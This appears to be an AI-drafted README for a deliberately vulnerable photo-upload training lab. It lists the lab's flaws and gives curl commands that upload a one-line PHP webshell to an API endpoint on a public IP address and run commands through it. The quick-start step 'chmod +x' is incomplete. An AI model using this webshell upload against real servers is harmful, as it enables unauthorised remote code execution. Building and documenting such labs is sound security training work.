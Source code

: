 # PhotoShare - Vulnerable File Upload Lab

A deliberately vulnerable file upload application for security education.

## WARNING
This application is intentionally vulnerable. Never use in production.

## Quick Start
```bash
git clone https://github.com/yourusername/photoshare-vulnerable-lab.git
cd photoshare-vulnerable-lab
chmod +x
./autodeploy.sh
```

## Vulnerabilities
Unrestricted file upload via API
PHP webshell execution
Weak authentication
Path traversal

## Basic Upload Test:
bash
curl -i 'http://139.162.33.5:3000/api/users/one/admin/photo' \
  -X PUT \
  -H 'authorization: AUTH_TOKEN' \
  -F "admin=@test.exe;filename=test.exe"

## Webshell Upload:
bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -F "admin=@shell.php;filename=shell.php" \
  -H "authorization: AUTH_TOKEN" \
  -X PUT http://139.162.33.5:3000/api/users/one/admin/photo
curl 'http://139.162.33.5/uploads/shell.php?cmd=whoami'

## Endpoints
/ - Main upload (secure)
/uploads - File gallery
/manual - Documentation
/manual/deep - Testing guide
PUT /api/users/one/admin/photo - Vulnerable API

Educational Use Only
Use responsibly in controlled environments.

**Just copy the text above and paste it into your README.md file on GitHub!** 

This avoids the application error while giving you all the essential information. You can always expand it later directly on GitHub. 🚀


